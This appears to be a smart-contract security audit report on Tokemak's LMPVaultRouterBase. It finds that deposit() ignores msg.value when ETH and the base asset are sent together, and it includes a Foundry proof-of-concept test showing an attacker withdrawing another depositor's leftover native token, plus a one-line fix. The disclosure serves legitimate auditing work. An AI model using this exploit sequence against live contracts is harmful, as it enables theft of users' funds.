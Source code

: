 Curved Graphite Marmot

high

# An attacker can steal `native` token from the `LMPVaultRouterBase` contract due `LMPVaultRouterBase::deposit()` malfunction
## Summary

The `LMPVaultRouterBase::deposit()` function does not manage correctly the `nativeToken` AND `baseToken` deposits causing an attacker the opportunity to steal native token from the LMPVaultRouterBase.

## Vulnerability Detail

The [LMPVaultRouterBase::deposit()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L44) helps to deposit to the `LMPVault`. It accepts [native token value](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L51) and the [vault asset](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L54).

The problem is that the user may send both, the native token AND the vault base asset in the same transaction call but the function will deposit to the `LMPVault` only the amount specified in the [amount](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L47) parameter. Therefore, an attacker can steal the amount not used by the `LMPVault`.

The deposit function execution:

- The [_processEthIn()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L51) function will [deposit the `msg.value`](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L120) in the `LMPVaultRouterBase` contract.
- The [pullToken()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L54) will [transfer the `vaultAsset`](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/utils/PeripheryPayments.sol#L54) from the caller to the `LMPVaultRouterBase` contract.
- Then, the [deposited amount to the `LMPVault`](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L67) will be the value specified in `amount` parameter. **The error is here because the deposit to the `LMPVault` does not count the `msg.value` amount.**

I created the next test where at the end, an attacker can steal native token amount from the `LMPVaultRouterBase` contract.

1. A depositor calls `deposit()` function sending `1e18 nativeToken` and `1e18 baseAssetToken`.
2. The `lmpVault` increases the `totalAssets` by `1e18` which is incorrect because the totalAssets should be increased by 2e18 because the depositor balance was decreased 1e18 baseAsset and 1e18 nativeToken (2e18).
3. Attacker deposits `1e18` baseAsset and then withdraw their assets. At the end the attacker will have `2e18` native token. The attacker steal `1e18` from the depositor of the step one.


```solidity
// File: LMPVaultRouter.t.sol
// $ forge test --match-test "test_depositEthAndWethError" -vvv
    function test_depositEthAndWethError() public {
        // An attacker can steal value from the LMPVaultRouter.
        // The deposit() function does not manage correctly the nativeToken AND baseToken deposits
        // causing an attacker to steal native token from the LMPVaultRouter.
        //
        // depositAmount = 1e18;
        uint256 minSharesExpected = 1;
        uint256 baseAssetBefore = baseAsset.balanceOf(address(this));
        uint256 nativeTokenBefore = address(this).balance;
        uint256 vaultTotalAssetsBefore = lmpVault.totalAssets();
        baseAsset.approve(address(lmpVaultRouter), depositAmount);
        //
        // User calls deposit() sending 1e18 nativeToken and 1e18 baseAssetToken.
        uint256 sharesReceived = lmpVaultRouter.deposit{value: depositAmount}(
            lmpVault,
            address(this),
            depositAmount,
            minSharesExpected);
        assertGt(sharesReceived, 0);
        //
        // The depositor's baseAsset balance decreased 1e18 amount.
        assertEq(baseAsset.balanceOf(address(this)), baseAssetBefore - depositAmount);
        //
        // Also the depositor's nativeToken balance decreased 1e18 amount.
        assertEq(address(this).balance, nativeTokenBefore - depositAmount);
        //
        // The lmpVault asset is increased by only 1e18 amount which is incorrect
        // because the user balance was decreased the baseAsset and the nativeToken balance.
        assertEq(lmpVault.totalAssets(), vaultTotalAssetsBefore + depositAmount);
        //
        // An attacker can deposit 1e18 then withdraw the unused amount from the first depositor.
        // The attacker will receive his 1e18 weth deposited amount + 1e18 nativeToken.
        address attacker = address(369);
        vm.startPrank(attacker);
        deal(address(baseAsset), attacker, 1e18); // attacker has 1e18
        baseAsset.approve(address(lmpVaultRouter), 1e18);
        lmpVaultRouter.deposit(lmpVault, attacker, 1e18, minSharesExpected); // attacker deposits 1e18
        lmpVault.approve(address(lmpVaultRouter), 1e18);
        lmpVaultRouter.withdraw(lmpVault, attacker, 1e18, 1e18, true);
        //
        // Attacker balance is 2e18 nativeToken. The attacker steal 1e18.
        assertEq(attacker.balance, 2e18);
        vm.stopPrank();
    }
```

## Impact

An attacker can steal unused `weth/native` from the LMPVaultRouterBase contract. Material loss at zero cost by the attacker.

## Code Snippet

The [LMPVaultRouterBase.deposit()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L44) function:

```solidity
    function deposit(
        ILMPVault vault,
        address to,
        uint256 amount,
        uint256 minSharesOut
    ) public payable virtual override returns (uint256 sharesOut) {
        // handle possible eth
        _processEthIn(vault);

        IERC20 vaultAsset = IERC20(vault.asset());
        pullToken(vaultAsset, amount, address(this));

        return _deposit(vault, to, amount, minSharesOut);
    }
```

The [LMPVaultRouterBase._processEthIn()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L111C14-L111C27) function:

```solidity
    function _processEthIn(ILMPVault vault) internal {
        // if any eth sent, wrap it first
        if (msg.value > 0) {
            // if asset is not weth, revert
            if (address(vault.asset()) != address(weth9)) {
                revert InvalidAsset();
            }

            // wrap eth
            weth9.deposit{ value: msg.value }();
        }
    }

```

## Tool used

Manual review

## Recommendation

The [deposit()](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L56) function must count the `msg.value` amount. So the deposited amount to the `LMPVault` must be the `baseAssetAmount` + the `msg.value` amount.

```diff
    function deposit(
        ILMPVault vault,
        address to,
        uint256 amount,
        uint256 minSharesOut
    ) public payable virtual override returns (uint256 sharesOut) {
        // handle possible eth
        _processEthIn(vault);

        IERC20 vaultAsset = IERC20(vault.asset());
        pullToken(vaultAsset, amount, address(this));

--      return _deposit(vault, to, amount, minSharesOut);
++      return _deposit(vault, to, amount + msg.value, minSharesOut);
    }
```